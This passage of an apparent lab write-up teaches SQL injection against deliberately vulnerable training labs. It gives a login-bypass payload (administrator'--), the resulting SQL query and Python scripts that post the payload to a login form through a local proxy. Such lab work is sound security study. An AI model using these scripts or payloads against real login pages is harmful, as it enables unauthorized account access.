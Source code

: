 ```python
       
if __name__=="__main__":
    try:
        url = sys.argv[1].strip()
        payload = sys.argv[2].strip()
    except IndexError:
        print('Usage: %s <url> <payload>' % sys.argv[0])
        print('Example: %s www.example-com "1=1"' % sys.argv[0])
        sys.exit(-1)
    if exploit_sqli(url,payload):
        print("SQL Injection Successfull")
    else:
        print("Injection Failed, try again")
```
## Lab 2 - SQL injection vulnerability allowing login bypass

In this lab we will use the same idea as in the first lab, we will discuss the validation of the password in the query to let us log in as administrator with only the username with this payload `admnistrator'--` and the query would look like this:

```sql
SELECT * FROM users WHERE username='administrator'--' and password='something'
```
This payload will comment the password validation and only will verify the correct username, in this case they give us this hint.

### Lab 2 Python Script

With this script the sql injection process is done automatically based on the fact that we already know the manual output, in this case we verify that the object "3D Voice Assistant" is in the web response and don´t forget to set the proxies.

```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
a_session = requests.Session()

def exploit_sqli(url, payload):
    uri='/login'
    r=a_session.post(url+uri, data={'username':payload, 'password':'a', 'csrf':'EDWeHPACH8bS0tDjAm7gCWzRdGPPYdGT'},verify=False, proxies=proxies, cookies={'session':'mnSlrxs2JjbmuE7icjEsJHJKgswWnkA5'})
    if 'Log out' in r.text:
        return True
    else:
        return False

       
if __name__=="__main__":
    try:
        url = sys.argv[1].strip()
        payload = sys.argv[2].strip()
    except IndexError:
        print('Usage: %s <url> <payload>' % sys.argv[0])
        print('Example: %s www.example-com "1=1"' % sys.argv[0])
        sys.exit(-1)
    if exploit_sqli(url,payload):
        print("SQL Injection Successfull")
    else:
        print("Injection Failed, try again")    
```